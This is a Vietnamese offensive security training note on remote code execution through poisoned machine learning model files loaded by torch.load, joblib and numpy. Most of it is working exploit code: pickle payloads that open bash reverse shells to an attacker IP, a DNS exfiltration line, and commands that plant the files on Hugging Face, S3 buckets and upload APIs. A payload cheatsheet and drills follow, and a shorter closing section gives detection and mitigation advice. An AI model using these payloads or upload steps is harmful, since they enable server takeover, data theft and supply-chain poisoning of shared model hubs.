

> **Prerequisites**: [[16-python-pickle-rce|16. Python Pickle & __reduce__ RCE]]
> **Objectives**:
> - Craft malicious `.pt` / `.pkl` model files để RCE qua `torch.load()`
> - Exploit `joblib.load()` với malicious sklearn model
> - Nhận biết ML infrastructure là attack surface mới trong production
> - Hiểu `weights_only=True` và tại sao nó quan trọng

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Application gọi `torch.load(path)` không có `weights_only=True`
> - Hoặc `joblib.load()`, `pickle.load()`, `numpy.load(allow_pickle=True)` với attacker-controlled file path
> - Attacker có khả năng upload/substitute model file (S3, HuggingFace Hub, shared storage)

> [!tip] Tại sao ML infrastructure là high-value target
> Inference servers thường chạy với GPU instance privileges, có access đến training data, model secrets, và internal APIs. Một RCE trên ML pipeline có thể lateral move sang toàn bộ data science infrastructure.

---

## Cơ chế tấn công

### PyTorch torch.load() — Pickle Under the Hood

![[assets/img-18-ml-attack-surface.png]]
*Hình 1: ML model lifecycle — malicious model file được upload lên HuggingFace/S3, sau đó inference server tự động download và gọi torch.load() → RCE.*

`torch.save()` serialize model weights bằng pickle. `torch.load()` deserialize bằng `pickle.Unpickler` — bất kỳ pickle payload nào cũng work:

```python
# Legitimate usage (vulnerable):
model = torch.load("model.pt")          # Uses pickle — UNSAFE with untrusted file
model = torch.load("model.pt", map_location="cpu")  # Still unsafe

# Safe usage (PyTorch 2.0+):
model = torch.load("model.pt", weights_only=True)   # Restricts to tensor data only
```

---

## Quy trình tấn công

### Bước 1 — Craft Malicious PyTorch Model

```python
#!/usr/bin/env python3
# craft_malicious_pt.py

import torch, os, pickle

LHOST = "10.10.14.5"
LPORT = "4444"

class MaliciousPayload:
    """Looks like a legitimate model object"""
    def __reduce__(self):
        cmd = f'bash -c "bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1"'
        return (os.system, (cmd,))

# Embed in a dict that mimics a real model checkpoint
malicious_model = {
    "epoch": 10,
    "model_state_dict": MaliciousPayload(),   # Payload hidden here
    "optimizer_state_dict": {},
    "loss": 0.0312,
    "accuracy": 0.9847
}

# Save as legitimate-looking .pt file
torch.save(malicious_model, "resnet50_finetuned.pt")
print("[+] Malicious model saved to resnet50_finetuned.pt")
print("[+] Start listener: nc -lvnp 4444")
print("[+] Victim loads: torch.load('resnet50_finetuned.pt') → RCE")
```

### Bước 2 — Craft Malicious sklearn Model

```python
#!/usr/bin/env python3
# craft_malicious_pkl.py

import joblib, os

class MaliciousClassifier:
    """Mimics sklearn classifier interface"""
    def __reduce__(self):
        return (os.system, ("bash -c 'bash -i >& /dev/tcp/LHOST/4444 0>&1'",))

    # Add sklearn-like attributes to avoid suspicion
    def predict(self, X): pass
    def fit(self, X, y): pass

# Save as sklearn model
joblib.dump(MaliciousClassifier(), "sentiment_classifier.pkl")
print("[+] Victim loads: clf = joblib.load('sentiment_classifier.pkl') → RCE")
```

### Bước 3 — Blind Confirm (No Outbound Shell)

```python
# Khi inference server block outbound connections
import torch, os

class ConfirmRCE:
    def __reduce__(self):
        # Write timestamp file — check via LFI hoặc another vuln
        return (os.system, ("id > /tmp/rce_confirmed_$(date +%s)",))

torch.save({"state": ConfirmRCE()}, "confirm_model.pt")

# Hoặc DNS exfil nếu DNS cho phép
class DNSExfil:
    def __reduce__(self):
        return (os.system, ("nslookup $(hostname).collab.oastify.com",))
```

### Bước 4 — Upload và Trigger

```bash
# Scenario 1: Attacker uploads to HuggingFace (public model hub)
huggingface-cli upload attacker-org/fake-model resnet50_finetuned.pt
# Victim: model = torch.hub.load("attacker-org/fake-model", "resnet50") → RCE

# Scenario 2: Replace model in S3 bucket (nếu có write access)
aws s3 cp resnet50_finetuned.pt s3://victim-mlops-bucket/models/prod/resnet50.pt

# Scenario 3: MITM nếu download qua HTTP (không HTTPS)
# Intercept HTTP download với mitmproxy, substitute với malicious file

# Scenario 4: Upload endpoint trong ML platform
curl -s http://TARGET:5001/api/models/upload \
  -F "model=@resnet50_finetuned.pt" \
  -F "name=resnet50_v2"
```

### Bước 5 — Trigger Load

```bash
# Nếu có API endpoint trigger model reload
curl http://TARGET:5001/api/models/load -d '{"model": "resnet50_v2"}'

# Hoặc predict endpoint nếu model auto-loads
curl http://TARGET:5001/api/predict \
  -d '{"model": "resnet50_v2", "input": "test"}'
```

---

## Các Framework Khác

### NumPy

```python
import numpy as np, os, pickle

# numpy.load() với allow_pickle=True
# Tạo malicious .npy file

class RCE:
    def __reduce__(self): return (os.system, ("id",))

# Tạo malicious numpy array với object dtype
import numpy as np
arr = np.array([RCE()], dtype=object)
np.save("/tmp/malicious_data.npy", arr, allow_pickle=True)

# Victim:
# data = np.load("/tmp/malicious_data.npy", allow_pickle=True)  → RCE
```

### Hugging Face Transformers

```python
# Transformers dùng torch.load() internally khi load model weights
# Từ transformers 4.38+: có safetensors support
# Legacy .bin files = pickle → vulnerable

# Tạo malicious pytorch_model.bin
import torch, os

class Exploit:
    def __reduce__(self): return (os.system, ("id",))

model_data = {"layer.weight": Exploit(), "layer.bias": torch.zeros(10)}
torch.save(model_data, "pytorch_model.bin")

# Victim:
# from transformers import AutoModel
# model = AutoModel.from_pretrained("./model_dir")  → RCE
```

---

## Cây quyết định



---

## Command Cheatsheet

**PyTorch malicious model**

```python
import torch, os
class R:
    def __reduce__(self): return (os.system, ("bash -c 'bash -i >& /dev/tcp/LHOST/PORT 0>&1'",))
torch.save({"state_dict": R()}, "model.pt")
```

**sklearn/joblib malicious model**

```python
import joblib, os
class R:
    def __reduce__(self): return (os.system, ("id > /tmp/pwn",))
joblib.dump(R(), "model.pkl")
```

**NumPy malicious array**

```python
import numpy as np, os
class R:
    def __reduce__(self): return (os.system, ("id",))
np.save("data.npy", np.array([R()], dtype=object), allow_pickle=True)
```

**Detect vulnerable loading code**

```bash
grep -r "torch\.load(" . | grep -v "weights_only=True"
grep -r "joblib\.load\|pickle\.load(" .
grep -r "allow_pickle=True" .
grep -r "from_pretrained(" . | grep "\.bin"  # transformers
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 5 ngày.

**Drill 1 — Craft malicious .pt trong < 1 phút**

```python
import torch, os
class R:
    def __reduce__(self): return (os.system, ("sleep 5",))
torch.save({"s": R()}, "/tmp/test.pt")
# Then: torch.load("/tmp/test.pt")  → verify 5s delay
```

**Drill 2 — Identify vulnerable vs safe patterns**

```
torch.load(f)                          → UNSAFE
torch.load(f, weights_only=True)       → SAFE
joblib.load(f)                         → UNSAFE
json.load(f)                           → SAFE (no object reconstruction)
np.load(f, allow_pickle=True)          → UNSAFE
np.load(f)                             → SAFE
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Code audit**: `torch.load()` không có `weights_only=True`, `joblib.load()` với external paths
> **Process**: Python/GPU inference process spawn subprocess → likely exploit
> **File system**: Unexpected write to `/tmp` từ inference worker → blind write test
> **Network**: DNS/HTTP outbound từ inference server sau model load

> [!note] Mitigation
> - PyTorch 2.0+: **luôn dùng `weights_only=True`** cho untrusted model files
> - scikit-learn: dùng safetensors hoặc ONNX format thay vì pickle
> - Verify model integrity: HMAC/SHA256 checksum trước khi load
> - Sandbox inference workers: không outbound network, minimal filesystem access
> - HuggingFace: prefer `.safetensors` format thay vì `pytorch_model.bin`

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| Custom | **Vulnerable ML API** | Flask + torch.load() endpoint |
| HuggingFace | **Model security research** | Real-world malicious model analysis |
| Custom | **MLflow server** | ML experiment tracking với model artifacts |
| CTF | **AI/ML themed challenges** | torch.load() exploit common theme |
